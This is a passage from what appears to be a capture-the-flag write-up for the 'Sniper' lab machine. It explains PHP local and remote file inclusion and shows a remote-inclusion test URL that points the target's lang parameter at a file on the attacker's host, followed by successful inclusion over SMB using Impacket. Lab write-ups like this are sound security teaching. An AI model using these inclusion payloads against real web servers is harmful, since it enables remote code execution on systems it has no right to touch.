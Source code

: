 It looks like the page is loading the english version of the site's content from the file **blog-en.php** using PHP's [include](https://www.php.net/manual/en/function.include.php) statement.
According to the manual, **"The include statement includes and evaluates the specified file."**. If any user has control over which file is "include"-ed on a web page,
this is known as a [File Inclusion Vulnerability](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/). 

A local file inclusion (LFI) vuln allows users to `include` (and therefore eval/run) other executable files on the filesystem of the vulnerable server. Remote file inclusion (RFI) takes it a step further,
allowing users to serve their own executable files from a remote host, and have them executed on the remote server via the `include` statement. Some webapp configurations can mean that the 'remote' include
is disbaled, so that only LFI is possible. Other times, the much safer `readfile()` function will be used instead of `include`, meaning a webapp isn't vulnerable to file inclusion at all. 

For this reason I always like to test for LFI first, and if successful, then try for RFI. While poking around before, I could see that a custom 404 page was being served if I requested a resource that didn't exist - using the help of a file on the server at **/blog/js/error.js**. This seemed like
a good target to try and confirm LFI before testing for RFI The image below shows that it worked! The code wasn't executed because it isn't valid PHP.

![Image](/assets/img/sniper/sniper_web_enum_3.png)

## Web Exploitation

With this information I was able to start testing for RFI and had no luck at all trying to include remote files via HTTP. To do this I ran the python module `SimpleHTTPServer` on my kali machine and tried connecting to it with variations of the following:
`http://10.10.10.151/blog/?lang=http://10.10.14.8/test.php`. Next I tried SMB and had success! I used [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` on kali and had remote machine to connect to my share.

![Image](/assets/img/sniper/sniper_web_exploit_1.png)
